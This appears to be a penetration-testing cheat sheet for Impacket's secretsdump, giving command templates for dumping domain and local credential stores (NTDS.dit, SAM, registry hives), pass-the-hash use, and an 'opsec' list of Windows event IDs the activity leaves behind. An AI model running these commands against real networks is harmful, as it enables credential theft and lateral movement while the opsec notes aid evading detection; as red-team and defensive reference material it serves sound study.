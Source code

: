 ### Source
https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py  

### Dump registry hives and other data
```
impacket-secretsdump -dc-ip <dcIp> <domain>/<user>:<password>@<rhost> -history
```

### Using with pass the hash
```
impacket-secretsdump -hashes :<ntlmHash> -dc-ip <dcIp> <domain>/<user>@<rhost>
```

### Dump only ntds.dit (can also use DRSGetNCCHanges Method)
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost>
```

### Dump credentials of single user
```
impacket-secretsdump -just-dc <domain>/<user>:<password>@<rhost> -just-dc-user <user>
```

### Dump from local registry hive copies
```
impacket-secretsdump -system <systemFile> -sam <samFile> -security <securityFile> LOCAL
```

### Dump from local system and ntds.dit
```
impacket-secretsdump -ntds <ntdsFile> -system <systemFile> LOCAL
```

### Opsec considerations 
```
Windows Security Log Event IDs
-Logon (4624)
-Logoff (4634)
-Special Logon (4672)

Windows System Logs
Service Control Manager (7040) -> multiple
```

